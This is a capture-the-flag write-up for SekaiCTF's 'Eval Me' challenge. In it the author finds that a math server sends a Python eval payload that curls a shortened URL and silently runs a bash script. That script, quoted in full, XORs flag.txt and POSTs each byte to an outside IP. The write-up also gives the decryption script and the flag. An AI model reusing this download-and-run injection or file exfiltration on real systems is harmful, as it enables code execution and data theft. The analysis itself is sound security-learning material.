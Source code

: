 ### Eval Me
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?
nc chals.sekai.team 9000

Author: Guesslemonger
---
Given File: [capture.pcapng](capture.pcapng)

The interesting traffic in this capture seems to be the numbers that the user is sending to the server. Based on the fact that the server given seems to ask for the user to calculate random equations, we could assume that these are the answers to those equations. Although, the data does seem to be in hex. 

Regardless, when we pull out all the data using `strings capture.pcapng | grep '{"data":' | cut -c 10-11` we get 
`20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f`

For now we can't do anything with this so lets investigate the netcat that was given in the challenge description. Upon connecting we are told that this is a simple intro to pwntool challenge where we must solve 100 equations in a time limit to get the flag. For this, I slightly modified the script from this writeup https://ctfwriteups.trwbox.com/competitions/SnykConCTF/Calculator/ to end up with 
[solver.py](solver.py)
This solves the equations nicely until we get an error with output 
```__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell
Traceback (most recent call last):
  File "/home/kali/Downloads/solver.py", line 34, in <module>
    eq1 = eval(stringEquation)
          ^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1
    __import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell
                                         ^
SyntaxError: '(' was never closed
```
Strange. If we also run the curl command we end up downloading the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```
This is the point where it was getting late (roughly 20 minutes until CTF ended) and I just gave chatgpt my previous hex values found from the pcap and this script and it gave me this script to reverse the XOR with:
```
ENCRYPTED="20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f"
KEY='s3k@1_v3ry_w0w'

# Convert encrypted string to an array of bytes
IFS=" " read -ra BYTE_ARRAY <<< "$ENCRYPTED"

DECRYPTED=""
for ((i = 0; i < ${#BYTE_ARRAY[@]}; i++)); do
    BYTE=${BYTE_ARRAY[i]}
    KEY_BYTE=${KEY:$((i % ${#KEY})):1}  # Obtain the corresponding key byte
    DECRYPTED_BYTE=$((0x$BYTE ^ $(printf '%d' "'$KEY_BYTE")))  # XOR operation
    DECRYPTED+="\\x$(printf '%02x' "$DECRYPTED_BYTE")"  # Convert back to ASCII
done

echo -e "$DECRYPTED"
```
running this script gave me the flag of `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`
